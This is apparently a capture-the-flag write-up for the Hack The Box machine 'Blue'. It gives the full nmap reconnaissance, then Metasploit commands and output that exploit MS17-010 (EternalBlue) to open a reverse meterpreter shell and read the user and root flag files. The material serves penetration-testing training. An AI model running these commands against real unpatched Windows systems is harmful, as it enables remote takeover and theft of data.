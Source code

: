```yaml
---
layout: default
title: "Blue"
tags: hackthebox windows 2020 easy
---
```


| OS       | Difficulty | Points | Release Date | IP Address  |
|----------|------------|--------|--------------|-------------|
| Windows  | Easy       | 20     | 28 July 2017 | 10.10.10.40 |



# Skills

* NMap
* Metasploit

# Information Gathering

## Nmap

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. Some key things to note are:
* ```139/tcp open microsoft-ds```
* ```Host: HARIS-PC``` (Noted as a possible username)

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m15s, deviation: 34m36s, median: 1m42s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-10T22:30:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-10T21:30:07
|_  start_date: 2020-07-10T10:57:21
```

# Exploitation

## Searching for the Exploit

Once I had found my attack vector, all that was left was the fun part: exploitation.
I firstly had to find the Metasploit module that contained the ```MS17-010``` exploit.

```bash
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 > use 2
```

## Setting Module Options
Then, I configured the module to exploit the target machnine (```10.10.10.40```) and to open up a TCP listener on my machine (```10.10.14.30```).

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
``` 

## Setting Payload & Running Exploit
      
After that, I set the payload to a staged meterpreter shell rather than the default unstaged generic one and exploited!

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1 
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.40:49159) at 2020-07-10 23:14:29 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```    

# User Flag
```bash
meterpreter > cd Desktop
meterpreter > ls 
Listing C:\users\haris\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 14:45:52 +0100    desktop.ini
100666/rw-rw-rw-  32    fil    2017-07-21 07:54:02 +0100    user.txt

meterpreter > cat user.txt
```


# Root Flag
```bash
meterpreter > cd /users/Administrator/Desktop
meterpreter > ls 
Listing C:\users\Administrator\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 07:56:36 +0100    desktop.ini
100444/r--r--r--  32    fil    2017-07-21 07:56:49 +0100    root.txt

meterpreter > cat root.txt
```